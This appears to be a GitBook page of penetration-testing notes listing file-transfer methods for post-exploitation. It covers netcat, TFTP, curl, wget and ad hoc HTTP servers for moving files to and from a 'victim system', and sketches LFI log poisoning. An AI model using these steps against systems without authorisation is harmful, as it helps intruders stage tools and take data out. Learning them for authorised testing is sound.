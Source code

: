```yaml
---
description: >-
  I have a problem  with remembering information that is very specific. So I
  have created a list of file transfer methods. I have not made any distinction
  of either windows or Linux.
---
```


# 6. File Transfer

Link : [https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts\#file-transfers](https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts#file-transfers)

Link : [https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/](https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/)

## Methods of file transfer

* **Non-interactive Shells.**
  * once it is executed, it does not require more input from the user in order to complete.
  * Once the command is executed, the shell automatically ends the connection.
* **Interactive Shells.**
  * remember how we used to interact SMTP server using command line.
    * we had to specify subject, email address, body, etc for mail.
    * Once we have sent the mail successfully we type "bye" to exit the SMTP connection.
  * Hence, to close the connection here we have to give a keyword which tells the server to terminate the connection.
* **Using Scripting languages.**
  * \(script\) like using VBscripts, a simple HTTP downloader using VBScript. On the server end we just need to serve file on our web server.
  * \(script\) like using Powershell, a simple HTTP downloader using powershell.
  * \(executable\) like using debug.exe to create a code a simple downloader. Compiling the code using debug.exe. Then running this executable to download the file to victim system.
* **Using logs method.**
  * Remember how all services running in victim system has a log file which tells us the timeline and the different activities that service has performed.
  * Similarly, if we have port open for that service, so the attacker could query the port. Similarly lets say the attacker queried port 80.
  * Then he needs to send some text which the server understands to get a valid response. 
  * But if user sends malicious code script. As it is an invalid request the script will not be executed, but still the complete script message is present in web server log files.
  * So if the website is vulnerable to LFI vulnerability, we could give path of web-server log files in this, and in this way our malicious code will be executed.

![Interactive Shell](../.gitbook/assets/image%20%2830%29.png)

![Non-Interactive Shell](../.gitbook/assets/image%20%2829%29.png)

## List of different ways for transferring a file

1. File Transfer protocols
   1. FTP
   2. SFTP
   3. TFTP
   4. SCP
2. Using HTTP Protocol
3. Using file download method
   1. BITSAdmin \(windows, client only\)
   2. PowerShell \(windows, client only\)
   3. VBS HTTP
   4. Perl HTTP
   5. CERTUTIL
   6. base64
   7. curl \(client only\)
   8. wget \(client only\)
4. Tools
   1. HFS tool - file transfer across different platforms.
   2. Using Meterpreter
5. Using PHP file server

## Using FTP

### FTP server side

*  We first need to create a FTP server on our attacking machine.
* Then we need to copy the respective file to be sent to the victim system on the root folder of the ftp server.
* We then need to create a user using which we will transfer the files.

### FTP Client side

*  There are two method to use ftp client to download files, first is the default interactive shell. Another is we try to make this interactive shell non interactive by creating a text file with all the inputs written in it. The ftp client could then use the file directly instead of interactive inputs from user.

## Using TFTP

{% tabs %}
{% tab title="Linux TFTP Server" %}
```text
mkdir /tftp
atftpd --daemon --port 69 /tftp
```
{% endtab %}

{% tab title="Windows TFTP Client" %}
```text
tftp -i 192.168.1.1 get file.txt #where 192.168.1.1 is the IP address of the TFTP server
```
{% endtab %}
{% endtabs %}

## Using Netcat

It is a simple netcat file transfer command

{% tabs %}
{% tab title="Sender side" %}
```text
nc 172.18.39.103 5000 < file.txt
```
{% endtab %}

{% tab title="Receiver side" %}
```text
nc -lvp 5000
```
{% endtab %}
{% endtabs %}

## Using file Download method

To transfer file using Download method, first we need to **set up a web server**.

{% tabs %}
{% tab title="python" %}
```text
python -m SimpleHTTPServer 8000
```
{% endtab %}

{% tab title="apache2" %}
```text
service apache2 start
cp file.txt /var/www/html/
```
{% endtab %}
{% endtabs %}

### Using curl

{% tabs %}
{% tab title="curl file transfer method" %}
```text
curl -O http://172.18.39.103/file.txt
```
{% endtab %}
{% endtabs %}

### Using wget

{% tabs %}
{% tab title="wget file transfer method" %}
```text
wget http://172.18.39.103/file.txt
```
{% endtab %}
{% endtabs %}

## Using PHP file server

{% tabs %}
{% tab title="Server side" %}
```text
php -S 0.0.0.0:80
```
{% endtab %}

{% tab title="Client side" %}
> You could use any file download method to download file.
{% endtab %}
{% endtabs %}

![](../.gitbook/assets/image-13.png)

![](../.gitbook/assets/image-39.png)

